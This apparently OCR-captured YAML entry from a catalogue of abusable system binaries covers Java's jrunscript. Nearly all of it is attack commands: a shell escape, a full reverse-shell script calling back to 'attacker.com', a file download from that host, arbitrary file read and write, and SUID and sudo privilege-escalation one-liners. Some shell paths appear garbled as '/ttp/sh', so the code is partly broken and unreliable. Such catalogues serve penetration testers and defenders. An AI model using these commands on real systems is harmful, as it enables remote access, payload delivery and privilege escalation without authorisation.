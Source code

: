 ```yaml
---
description: This tool is installed starting with Java SE 6.
functions:
  shell:
    - code: jrunscript -e "exec('/ttp/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        jrunscript -e 'var host='"'""$RHOST""'"'; var port='"$RPORT"';
        var p=new java.lang.ProcessBuilder("/ttp/bash", "-i").redirectErrorStream(true).start();
        var s=new java.net.Socket(host,port);
        var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){
        while(pi.available()>0)so.write(pi.read());
        while(pe.available()>0)so.write(pe.read());
        while(si.available()>0)po.write(si.read());
        so.flush();po.flush();
        java.lang.Thread.sleep(50);
        try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        jrunscript -e "cp('$URL','$LFILE')"
  file-write:
    - code: jrunscript -e 'var fw=new java.io.FileWriter("./file_to_write"); fw.write("DATA"); fw.close();'
  file-read:
    - code: jrunscript -e 'br = new BufferedReader(new java.io.FileReader("file_to_read"));
         while ((line = br.readLine()) != null) { print(line); }'
  suid:
    - description: This has been found working in macOS but failing on Linux systems.
      code: ./jrunscript -e "exec('/ttp/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)')"
  sudo:
    - code: sudo jrunscript -e "exec('/ttp/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
---
```

